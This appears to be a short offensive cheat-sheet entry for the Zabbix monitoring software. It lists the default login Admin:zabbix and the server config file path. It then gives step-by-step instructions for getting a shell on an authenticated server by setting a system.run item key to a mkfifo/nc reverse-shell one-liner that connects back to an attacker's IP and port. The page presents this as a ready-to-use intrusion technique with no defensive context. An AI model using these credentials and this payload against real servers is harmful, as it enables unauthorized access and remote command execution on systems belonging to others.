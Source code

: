 # zabbix

Zabbix is an open-source monitoring software tool for diverse IT components, including networks, servers, virtual
machines and cloud services. Zabbix provides monitoring metrics, among others network utilization, CPU load and disk
space consumption.

## Default Credentials

```bash
Admin:zabbix
```

## Interesting Paths

```bash
# config file
/etc/zabbix/zabbix_server.conf
```

## Shell (authenticated)

1. Configuration > Hosts > Items > Create New
2. set key: `system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f &,nowait]`
3. Click Test > Get Value & Test